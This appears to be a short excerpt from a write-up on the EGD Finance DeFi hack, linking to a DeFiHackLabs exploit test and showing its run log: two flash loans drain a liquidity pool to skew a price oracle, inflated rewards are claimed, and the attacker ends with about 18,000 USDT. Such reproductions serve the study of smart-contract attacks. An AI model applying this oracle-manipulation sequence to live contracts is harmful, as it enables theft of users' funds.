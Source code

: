 [DeFiHackLabs - EGD-Finance.exp.sol](https://github.com/finn79426/DeFiHackLabs/blob/main/src/test/EGD-Finance.exp.sol)

```
Running 1 test for src/test/EGD-Finance.exp.sol:Attacker
[PASS] testExploit() (gas: 537204)
Logs:
  --------------------  Pre-work, stake 10 USDT to EGD Finance --------------------
  Tx: 0x4a66d01a017158ff38d6a88db98ba78435c606be57ca6df36033db4d9514f9f8
  Attacker Stake 10 USDT to EGD Finance
  -------------------------------- Start Exploit ----------------------------------
  [Start] Attacker USDT Balance: 0.000000000000000000
  [INFO] EGD/USDT Price before price manipulation: 0.008096310933284567
  [INFO] Current earned reward (EGD token): 0.000341874999999972
  Attacker manipulating price oracle of EGD Finance...
  Flashloan[1] : borrow 2,000 USDT from USDT/WBNB LPPool reserve
  Flashloan[1] received
  Flashloan[2] : borrow 99.99999925% USDT of EGD/USDT LPPool reserve
  Flashloan[2] received
  [INFO] EGD/USDT Price after price manipulation: 0.000000000060722331
  Claim all EGD Token reward from EGD Finance contract
  [INFO] Get reward (EGD token): 5630136.300267721935770000
  Flashloan[2] payback success
  Swap the profit...
  Flashloan[1] payback success
  -------------------------------- End Exploit ----------------------------------
  [End] Attacker USDT Balance: 18062.915446991996902763

Test result: ok. 1 passed; 0 failed; finished in 1.66s


[^1]: Skim() :
[^2]: Internal function calls are invisible to the blockchain since they don't create any new transactions or blocks. In this way, they cannot be read by other smart contracts or show up in the blockchain transaction history.